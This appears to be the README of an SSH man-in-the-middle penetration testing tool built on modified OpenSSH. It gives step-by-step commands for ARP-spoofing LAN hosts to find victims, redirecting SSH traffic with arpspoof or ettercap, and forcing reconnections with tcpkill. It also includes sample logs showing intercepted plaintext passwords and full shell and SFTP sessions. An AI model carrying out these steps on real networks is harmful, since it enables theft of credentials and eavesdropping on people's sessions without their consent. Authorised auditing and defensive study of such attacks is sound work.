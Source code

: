 # SSH MITM v3.0-dev

Author: [Joe Testa](https://www.positronsecurity.com/company/) ([@therealjoetesta](https://twitter.com/therealjoetesta))


## Overview

This penetration testing tool allows an auditor to intercept SSH connections.  A modified version of OpenSSH v7.5p1 causes it to act as a proxy between the victim and their intended SSH server; all plaintext passwords and sessions are logged to disk.

Of course, the victim's SSH client will complain that the server's key has changed.  But because 99.99999% of the time this is caused by a legitimate action (OS re-install, configuration change, etc), many/most users will disregard the warning and continue on.

**WARNING:** Ad-hoc edits were made to the OpenSSH sources in critical regions, with no regard to their security implications.  Its not hard to imagine these edits introduce serious vulnerabilities.


## Change Log

* v3.0: ???: Added docker container to separate ssh-mitm from the host.
* v2.2: September 16, 2019: Fixed installation on Kali & Linux Mint 19.  Fixed a double-password prompt that occured under certain conditions.  Improved error logging.
* v2.1: January 4, 2018: Enabled non-interactive command execution, connections to old servers with weak algorithms can now be intercepted, fixed two major bugs which caused AppArmor to kill some connections, and improved error logging.
* v2.0: September 12, 2017: Added full SFTP support(!) and AppArmor confinement.
* v1.1: July 6, 2017: Removed root privilege dependencies, added automatic installer, added Kali Linux support, added *JoesAwesomeSSHMITMVictimFinder.py* script to find potential targets on a LAN.
* v1.0: May 16, 2017: Initial revision.


## To Do

The following list tracks areas to improve:

* Add port forwarding support.
* Create wrapper script that detects when user is trying to use key authentication only, and de-spoof them automatically.


## Initial Setup

To create the docker container, you need docker and docker-compose installed.

All you need is run ``docker-compose up`` to start the ssh server


## Finding Targets

The *JoesAwesomeSSHMITMVictimFinder.py* script makes finding targets on a LAN very easy.  It will ARP spoof a block of IPs and sniff for SSH traffic for a short period of time before moving on to the next block.  Any ongoing SSH connections originating from devices on the LAN are reported.

By default, *JoesAwesomeSSHMITMVictimFinder.py* will ARP spoof and sniff only 5 IPs at a time for 20 seconds before moving onto the next block of 5.  These parameters can be tuned, though a trade-off exists: the more IPs that are spoofed at a time, the greater the chance you will catch an ongoing SSH connection, but also the greater the strain you will put on your puny network interface.  Under too high of a load, your interface will start dropping frames, causing a denial-of-service and greatly raising suspicions (this is bad).  The defaults shouldn't cause problems in most cases, though it'll take longer to find targets.  The block size can be safely raised on low-utilization networks.

Example:

    # ./JoesAwesomeSSHMITMVictimFinder.py --interface enp0s3 --ignore-ips 10.11.12.50,10.11.12.53
    Found local address 10.11.12.141 and adding to ignore list.
    Using network CIDR 10.11.12.141/24.
    Found default gateway: 10.11.12.1
    IP blocks of size 5 will be spoofed for 20 seconds each.
    The following IPs will be skipped: 10.11.12.50 10.11.12.53 10.11.12.141


    Local clients:
      * 10.11.12.70 -> 174.129.77.155:22
      * 10.11.12.43 -> 10.11.99.2:22

The above output shows that two devices on the LAN have created SSH connections (10.11.12.43 and 10.11.12.70); these can be targeted for a man-in-the-middle attack.  Note, however, that in order to potentially intercept credentials, you'll have to wait for them to initiate new connections.  Impatient pentesters may opt to forcefully close existing SSH sessions (using the *tcpkill* tool), prompting clients to create new ones immediately...


## Running The Attack

1.) Once you've completed the initial setup and found a list of potential victims (see above), execute *start.sh* as root.  This will start *sshd_mitm*, enable IP forwarding, and set up SSH packet interception through *iptables*.

2.) ARP spoof the target(s) (**Protip:** do NOT spoof all the things!  Your puny network interface won't likely be able to handle an entire network's traffic all at once.  Only spoof a couple IPs at a time):

    arpspoof -r -t 192.168.x.1 192.168.x.5

Alternatively, you can use the *ettercap* tool:

    ettercap -i enp0s3 -T -M arp /192.168.x.1// /192.168.x.5,192.168.x.6//

3.) Monitor *auth.log*.  Intercepted passwords will appear here:

    sudo tail -f /var/log/auth.log

4.) Once a session is established, a full log of all input & output can be found in */home/ssh-mitm/*.  SSH sessions are logged as *shell_session_\*.txt*, and SFTP sessions are logged as *sftp_session_\*.html* (with transferred files stored in a corresponding directory).


## Sample Results

Upon success, */var/log/auth.log* will have lines that log the password, like this:

    Sep 11 19:28:14 showmeyourmoves sshd_mitm[16798]: INTERCEPTED PASSWORD: hostname: [10.199.30.x]; username: [jdog]; password: [supercalifragilistic] [preauth]

Furthermore, the victim's entire SSH session is logged:

    # cat /home/ssh-mitm/shell_session_0.txt
    Hostname: 10.199.30.x
    Username: jdog
    Password: supercalifragilistic
    -------------------------
    Last login: Thu Aug 31 17:42:38 2017
    OpenBSD 6.1 (GENERIC.MP) #21: Wed Aug 30 08:21:38 CEST 2017

    Welcome to OpenBSD: The proactively secure Unix-like operating system.

    Please use the sendbug(1) utility to report bugs in the system.
    Before reporting a bug, please try to reproduce it with the latest
    version of the code.  With bug reports, please try to ensure that
    enough information to reproduce the problem is enclosed, and if a
    known fix for it exists, include that as well.

    jdog@jefferson ~ $ ppss
      PID TT  STAT       TIME COMMAND
    59264 p0  Ss      0:00.02 -bash (bash)
    52132 p0  R+p     0:00.00 ps
    jdog@jefferson ~ $ iidd
    uid=1000(jdog) gid=1000(jdog) groups=1000(jdog), 0(wheel)
    jdog@jefferson ~ $ sssshh  jjtteessttaa@@mmaaggiiccbbooxx
    jtesta@magicbox's password: ROFLC0PTER!!1juan


Note that the characters in the user's commands appear twice in the file because the input from the user is recorded, as well as the output from the shell (which echoes characters back).  Observe that when programs like *sudo* and *ssh* temporarily disable echoing in order to read a password, duplicate characters are not logged.

All SFTP activity is captured as well.  Use a browser to view *sftp_session_0.html*.  It contains a log of commands, with links to files uploaded and downloaded:

    # cat /home/ssh-mitm/sftp_session_0.txt
    <html><pre>Hostname: 10.199.30.x
    Username: jdog
    Password: supercalifragilistic
    -------------------------
    > realpath "." (Result: /home/jdog)
    > realpath "/home/jdog/." (Result: /home/jdog)
    > ls /home/jdog
    drwxr-xr-x    4 jdog     jdog         4096 Sep 11 16:12 .
    drwxr-xr-x    4 root     root         4096 Sep  6 11:53 ..
    -rw-r--r--    1 jdog     jdog         3771 Aug 31  2015 .bashrc
    -rw-r--r--    1 jdog     jdog          220 Aug 31  2015 .bash_logout
    drwx------    2 jdog     jdog         4096 Sep  6 11:54 .cache
    -rw-r--r--    1 jdog     jdog          655 May 16 08:49 .profile
    drwx------    2 jdog     jdog         4096 Sep  8 16:59 .ssh
    -rw-rw-r--    1 jdog     jdog      5242880 Sep  8 15:52 file
    -rw-rw-r--    1 jdog     jdog        43131 Sep 10 10:47 file2
    -rw-rw-r--    1 jdog     jdog           83 Sep  6 12:56 file3
    -rw-rw-r--    1 jdog     jdog      3048960 Sep 11 13:51 file4

    > realpath "/home/jdog/file5" (Result: /home/jdog/file5)
    > put <a href="sftp_session_0/file5">/home/jdog/file5</a>
    > realpath "/home/jdog/file5" (Result: /home/jdog/file5)
    > stat "/home/jdog/file5" (Result: flags: 15; size: 854072; uid: 1001; gid: 1001; perm: 0100664, atime: 1505172831, mtime: 1505172831)
    > setstat "/home/jdog/file5" (Result: flags: 4; size: 0; uid: 0; gid: 0; perm: 0100700, atime: 0, mtime: 0)
    </pre></html>


## Developer Documentation

In *lol.h* are two defines: *DEBUG_HOST* and *DEBUG_PORT*.  Enable them and set the hostname to a test server.  Now you can connect to *sshd_mitm* directly without using ARP spoofing in order to test your changes, e.g.:

    ssh -p 2222 valid_user_on_debug_host@localhost


Changes between the original version of OpenSSH and SSH-MITM: https://github.com/ssh-mitm/jtesta-ssh-mitm/compare/96fc3d0d4530fad183b89afd2a116e7187abdd8f..9671121697e16276304a7a15b1b13283f5720d07